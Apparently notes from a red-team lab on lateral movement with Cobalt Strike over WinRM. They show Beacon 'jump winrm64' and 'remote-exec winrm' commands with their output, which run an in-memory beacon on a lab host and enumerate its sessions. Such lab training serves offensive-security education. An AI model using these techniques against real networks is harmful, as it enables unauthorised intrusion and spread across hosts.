 Windows Remote Management (WinRM) is Microsoft's implementation of the WS-Management protocol, and allows remote management of computers via PowerShell.  This option executes a payload entirely within memory, without requiring it to be dropped to disk.

```powershell
beacon> jump winrm64 lon-ws-1 smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\TSVCPIPE-4b2f70b3-ceba-42a5-a4b5-704e1c41337) on lon-ws-1 via WinRM
[+] established link to child beacon: 10.10.120.10
```

![[Pasted image 20250714102537.png]]

> Beacons executed via WinRM will run in the context of the current or impersonated user.

WinRM is also the only `remote-exec` method that returns output, so it could be used for remote enumeration.

```powershell
beacon> remote-exec winrm lon-ws-1 net sessions
[*] Tasked beacon to run 'net sessions' on lon-ws-1 via WinRM

Computer               User name            Client Type       Opens Idle time

-------------------------------------------------------------------------------
\\10.10.120.101        rsteel                                     1 00:00:07
```